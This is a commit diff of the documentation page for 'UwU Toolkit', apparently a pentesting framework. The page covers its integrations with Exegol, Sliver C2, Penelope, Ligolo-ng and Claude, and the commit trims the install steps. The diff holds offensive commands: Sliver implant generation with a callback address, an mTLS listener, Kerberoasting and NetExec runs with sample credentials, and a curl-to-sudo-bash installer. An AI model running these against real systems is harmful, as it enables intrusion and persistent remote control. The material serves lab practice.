

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from uwu-toolkit/integrations.md, in a window 1280 px wide and 1400 px high, scrolled down 552 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Strip install instructions and non-UwU commands from integrations
Remove external setup/install steps from Exegol, Sliver, Penelope,
Ligolo, Claude. Remove raw nxc shortcut. Everything shown through
UwU's use/set/run workflow.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/uwu-toolkit/integrations.md
+++ b/uwu-toolkit/integrations.md
@@ -27,78 +27,16 @@ UwU Toolkit integrates with external tools and services to enhance your penetrat
 
 ## Exegol Integration
 
-[Exegol](https://github.com/ThePorgs/Exegol) is a community-driven hacking environment with pre-installed tools. UwU Toolkit seamlessly runs commands inside Exegol containers.
+[Exegol](https://github.com/ThePorgs/Exegol) is the recommended environment for UwU Toolkit. Modules automatically detect and use tools inside your Exegol container.
 
 ### Setup
 
 ```bash
-# Install Exegol
-pip install exegol
-
-# Start a container
-exegol start htb full
-
-# Set container in UwU Toolkit
+# Set your Exegol container
 uwu > setg EXEGOL_CONTAINER exegol-htb
 ```
 
-### How It Works
-
-When a module needs tools not installed locally:
-
-1. **Tool Detection** - Module calls `find_tool("GetUserSPNs.py")`
-2. **Local Check** - Searches extended PATH (`~/.local/bin`, `/opt/tools`, `/usr/bin`, etc.)
-3. **Exegol Fallback** - If not found, uses `run_in_exegol()` to execute in container
-4. **Output Return** - Results are captured and returned to UwU Toolkit
-
-### Kali Compatibility
-
-The same codebase works on Kali without code changes:
-- `find_tool()` checks `~/.local/bin` and `/usr/bin` (where Kali puts pip-installed tools)
-- Wordlist resolution checks `/usr/share/seclists` (Kali's default)
-- `WORKING_DIR` auto-detects `~/htb` or `~/ctf` if they exist
-
-### Module Example
-
-```python
-def run(self) -> bool:
-    # Try local first
-    tool_path = find_tool("impacket-GetUserSPNs")
-
-    if tool_path:
-        self.print_status("Using local tools")
-        ret, stdout, stderr = self.run_command([tool_path, ...])
-    else:
-        self.print_status("Using Exegol")
-        ret, stdout, stderr = self.run_in_exegol("GetUserSPNs.py ...")
-
-    return ret == 0
-```
-
-### Container Auto-Detection
-
-If `EXEGOL_CONTAINER` is not set:
-
-1. Searches for running containers starting with `exegol-`
-2. Uses the first match found
-3. Prompts if multiple containers are running
-
-### Running Commands in Exegol
-
-```python
-# Simple command
-ret, stdout, stderr = self.run_in_exegol(
-    "GetUserSPNs.py 'domain/user:pass' -dc-ip 10.10.10.100",
-    timeout=120
-)
-
-# Specify container explicitly
-ret, stdout, stderr = self.run_in_exegol(
-    "NetExec smb target -u user -p pass",
-    container="exegol-htb",
-    timeout=60
-)
-```
+If `EXEGOL_CONTAINER` is not set, UwU auto-detects running containers starting with `exegol-`.
 
 ---
 
@@ -395,38 +333,17 @@ uwu netexec > set ACTION check
 uwu netexec > run
 ```
 
-### Console Shortcut
-
-The `nxc` command also works directly for quick one-off checks:
-
-```bash
-uwu > nxc smb 10.10.10.100 -u admin -p Password123 --shares
-uwu > nxc ldap 10.10.10.100 -u admin -p Password123 -M laps
-```
-
 ---
 
 ## Claude AI Integration
 
 UwU Toolkit includes an AI-powered assistant using Claude for security research, code analysis, and interactive help.
 
-### Requirements
+### Setup
 
 ```bash
-# Install Anthropic SDK
-pip install anthropic
-
-# Set API key in UwU Toolkit
 uwu > setg ANTHROPIC_API_KEY sk-ant-api03-your-key-here
 ```
-
-### Getting an API Key
-
-1. Visit [console.anthropic.com](https://console.anthropic.com)
-2. Create an account or sign in
-3. Navigate to API Keys
-4. Create a new API key
-5. Copy the key (starts with `sk-ant-api03-`)
 
 ### Verify Setup
 
@@ -569,42 +486,7 @@ Claude: Great find! Here's your attack path:
 
 ## Sliver C2 Integration
 
-[Sliver](https://github.com/BishopFox/sliver) is an open-source cross-platform adversary emulation/C2 framework. UwU Toolkit provides integrated management.
-
-### Requirements
-
-```bash
-# Download Sliver
-curl https://sliver.sh/install | sudo bash
-
-# Or manually
-wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux
-wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-client_linux
-chmod +x sliver-*
-sudo mv sliver-server_linux /usr/local/bin/sliver-server
-sudo mv sliver-client_linux /usr/local/bin/sliver-client
-```
-
-### Generate Client Config
-
-On the Sliver server:
-
-```bash
-# Start server
-sliver-server
-
-# Generate operator config
-sliver > new-operator --name p3ta --lhost 10.10.14.50
-[*] Wrote operator config to: p3ta.cfg
-```
-
-Import on client:
-
-```bash
-sliver-client import ./p3ta.cfg
-```
-
-Configs are stored in `~/.sliver-client/configs/`.
+[Sliver](https://github.com/BishopFox/sliver) C2 is fully managed from within UwU Toolkit — server, client, implants, and sessions.
 
 ### Server Management
 
@@ -628,43 +510,6 @@ uwu > sliver connect
 
 # Connect with specific config
 uwu > sliver connect p3ta
-
-# Full Sliver client interface
-sliver > help
-sliver > implants
-sliver > use 1
-```
-
-### Client Interaction
-
-While in Sliver mode:
-
-- Full Sliver client functionality available
-- All Sliver commands work (`sessions`, `implants`, `generate`, etc.)
-- `Ctrl+D` - Background session (return to UwU)
-- `exit` - Exit and return to UwU
-
-### Resume Session
-
-```bash
-# After backgrounding with Ctrl+D
-uwu > sliver resume
-uwu > sliver fg   # Alias
-```
-
-### Status Check
-
-```bash
-uwu > sliver status
-
-  Sliver Status
-  ========================================
-
-  Server:  Running
-  Client:  Backgrounded (use 'sliver resume')
-  Configs: 2 available
-  Client:  /usr/local/bin/sliver-client
-  Server:  /usr/local/bin/sliver-server
 ```
 
 ### List Configs
@@ -681,59 +526,57 @@ uwu > sliver configs
       /home/p3ta/.sliver-client/configs/operator2.cfg
 ```
 
+### Status Check
+
+```bash
+uwu > sliver status
+
+  Sliver Status
+  ========================================
+
+  Server:  Running
+  Client:  Backgrounded (use 'sliver resume')
+  Configs: 2 available
+```
+
 ### Typical Workflow
 
 ```bash
-# 1. Start server
+# 1. Start server and connect
 uwu > sliver start
-
-# 2. Connect client
 uwu > sliver connect
 
-# 3. Generate implant
+# 2. Generate implant and start listener
 sliver > generate --mtls 10.10.14.50:443 --os windows --arch amd64 --save implant.exe
-
-# 4. Start listener
 sliver > mtls -l 443
 
-# 5. Wait for callback, then interact
+# 3. Interact with sessions
 sliver > sessions
 sliver > use 1
 
-# 6. Background to UwU (keep session)
+# 4. Background to UwU (keep session alive)
 # Press Ctrl+D
 
 uwu > # Continue with other tasks
 
-# 7. Resume when needed
+# 5. Resume when needed
 uwu > sliver resume
+uwu > sliver fg   # Alias
 ```
 
-### Integration Benefits
+### Inside Sliver Mode
 
-- **Session Persistence** - Background and resume without losing state
-- **Unified Interface** - Manage C2 alongside other tools
-- **Variable Sharing** - Use UwU global variables in Sliver commands
-- **Workflow Integration** - Switch between enumeration, exploitation, and C2
+Once connected, full Sliver client functionality is available:
+
+- All Sliver commands work (`sessions`, `implants`, `generate`, `use`, etc.)
+- `Ctrl+D` — Background session and return to UwU
+- `exit` — Exit and return to UwU
 
 ---
 
 ## Penelope Shell Handler
 
-[Penelope](https://github.com/brightio/penelope) is an advanced shell handler with auto-upgrade capabilities. UwU Toolkit provides full interactive integration with session management.
-
-### Requirements
-
-```bash
-# Clone Penelope
-git clone https://github.com/brightio/penelope.git /opt/penelope
-
-# Or install via pip (if available)
-pip install penelope-shell
-
-# Make executable
-chmod +x /opt/penelope/penelope.py
-```
+[Penelope](https://github.com/brightio/penelope) is an advanced shell handler with auto-upgrade capabilities, fully integrated into UwU Toolkit.
 
 ### Start Listener
 
@@ -831,23 +674,7 @@ penelope> spawn 9002     # New listener on 9002
 
 ## Ligolo-ng Tunneling
 
-[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) is a simple, lightweight tunneling tool using TUN interfaces. UwU Toolkit provides full proxy management with route configuration.
-
-### Requirements
-
-```bash
-# Download from releases
-wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-ng_proxy_Linux_64bit.tar.gz
-wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-ng_agent_Linux_64bit.tar.gz
-
-# Extract
-tar -xzf ligolo-ng_proxy_Linux_64bit.tar.gz
-tar -xzf ligolo-ng_agent_Linux_64bit.tar.gz
-
-# Move to path
-sudo mv proxy /usr/local/bin/ligolo-proxy
-sudo mv agent /usr/local/bin/ligolo-agent
-```
+[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) tunneling is fully managed from UwU Toolkit — proxy, TUN interface, routes, and agents.
 
 ### Start Proxy
 
````
